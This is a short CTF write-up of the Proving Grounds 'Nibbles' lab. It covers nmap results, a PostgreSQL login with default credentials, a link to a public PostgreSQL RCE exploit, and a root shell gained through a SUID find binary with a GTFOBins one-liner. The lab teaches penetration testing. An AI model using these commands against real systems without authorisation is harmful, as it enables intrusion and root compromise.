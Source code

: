 ```yaml
---
title: "Proving grounds Practice: Nibbles"
layout: post
date: 2024-01-05 02:00
categories: writeup
---
```


Proving grounds - Nibbles CTF writeup.

# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
```

## 21/tcp   open  ftp        vsftpd 3.0.3

- Anonymous login prohibited.
 - user:system = failed.

- vsftpd v3.0.3 not vulnerable tp RCE.

Moving to next port.

## 80/tcp   open  http       Apache httpd 2.4.38 ((Debian))

Nothing here!

## 5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9

PostgreSQL 11.7 (Debian 11.7-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit

Connecting postgresql db using default credentials `postgres:postgres`.

```sh
psql -U postgres -h 192.168.156.47 -p 5437
```

### GitHub Exploit

- https://github.com/kashif-23/modified-public-exploits/blob/main/postgresqlversions_9.3-11.7-RCE.py

![img](/assets/images/CTF/Proving_Grounds/Nibbles/IF.png)

Initial Foothold obtained.

## Privilege Escalation

Enumerate SUIDs `$ find / -perm -u=s -type f 2>/dev/null`.

```sh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/find	#vulnerable to exploit
/usr/bin/sudo
/usr/bin/umount
```

#### GTFO Bins Exploit

```sh
./find . -exec /bin/sh -p \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/Nibbles/Root.png)

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).